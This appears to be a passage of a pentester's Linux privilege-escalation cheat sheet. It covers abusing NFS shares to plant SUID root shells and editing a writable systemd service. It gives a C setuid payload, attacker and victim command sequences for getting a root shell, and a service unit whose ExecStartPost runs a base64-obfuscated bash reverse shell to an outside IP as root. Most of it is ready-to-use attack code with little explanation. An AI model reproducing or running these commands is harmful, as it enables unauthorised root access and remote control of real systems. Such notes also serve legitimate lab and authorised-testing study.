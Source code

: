 Exploit 1:

```c
int main() {
	setresuid(0,0,0);
	setresgid(0,0,0);
	system("/bin/bash");
	}
```

```shell
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -o rw,vers=2 -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHARED_FOLDER>
./payload #ROOT shell
```

Exploit 2:

```shell
#Attacker, as root user
mkdir /tmp/pe
mount -o rw,vers=2 -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHARED_FOLDER>
./bash -p #ROOT shell
```

# SystemdService

## WritableSystemdService

Steps:
1. identify services we have allowed in writing:
	- *linpeas*
	- `ls -la /etc/systemd/system/ /usr/lib/systemd/system/ /run/systemd/system/`
2. verify that you have the privilege to restart the service:
	- Can I run *systemctl* with root? (SUID, *sudo -l*, ecc)
	- Can i reboot the machine? (*reboot* binary with SUID or *sudo -l*, ecc)
3. edit the service. For example

```service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
ExecStartPost=/usr/bin/bash -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIyMi84MCAwPiYx|base64 -d|/usr/bin/bash'
TimeoutSec=30
RestartSec=15s
User=root
```